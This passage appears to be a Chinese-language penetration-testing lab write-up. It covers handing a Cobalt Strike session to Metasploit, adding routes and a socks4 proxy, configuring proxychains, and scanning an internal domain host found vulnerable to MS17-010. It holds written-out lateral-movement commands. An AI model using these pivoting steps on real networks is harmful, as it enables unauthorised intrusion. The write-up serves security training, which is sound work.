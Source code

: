 ![image-20220623102810823](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206231028856.png)

### 六、CS与MSF联动

使用msf监听模块，ip就是kali的ip，端口就是监听的端口，payload要和cs相同，然后运行，开始监听

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220931733.png" alt="image-20220622093151688" style="zoom:50%;" />

cs创建一个listener，ip也是kali的ip端口和kali监听端口一样，使用payload为**Foreign HTTP**

​	![image-20220622093354835](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220933867.png)

右击要传的会话，点击Spawn，选择foregin http那个listense



![image-20220622093127055](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220931103.png)

等它执行完命令，msf就会出现一个meterpreter

![image-20220622093548351](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220935386.png)

### 七、横向移动获取域内主机

#### 1、msf添加路由，使用代理进入内网

run get_local_subnets    查看当前网段

![image-20220622093721355](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220937396.png)

run autoroute -s 192.168.52.0/24 添加路由段

![image-20220622093807026](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220938065.png)

run autoroute -p 查看添加的路由

![image-20220624142832158](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206241428197.png)

#### 2、在Metasploit中激活路由配置，并且该配置必须能够通过socks4代理进行转发。

```shell
auxiliary/server/socks_proxy
set srvhost 192.168.72.129
set vsersion 4a
run
```

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220948602.png" alt="image-20220622094818562" style="zoom:67%;" />

#### 3、进入/etc/proxychains.conf 在底下修改，因为我们socks_proxy模块设置为了192.168.1.112 1080端口.

![image-20220622092428230](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206220924284.png)

这个时候代理成功，可以进入内网了,使用nmap来扫描域成员192.168.52.141的信息发现了有ms17-010漏洞
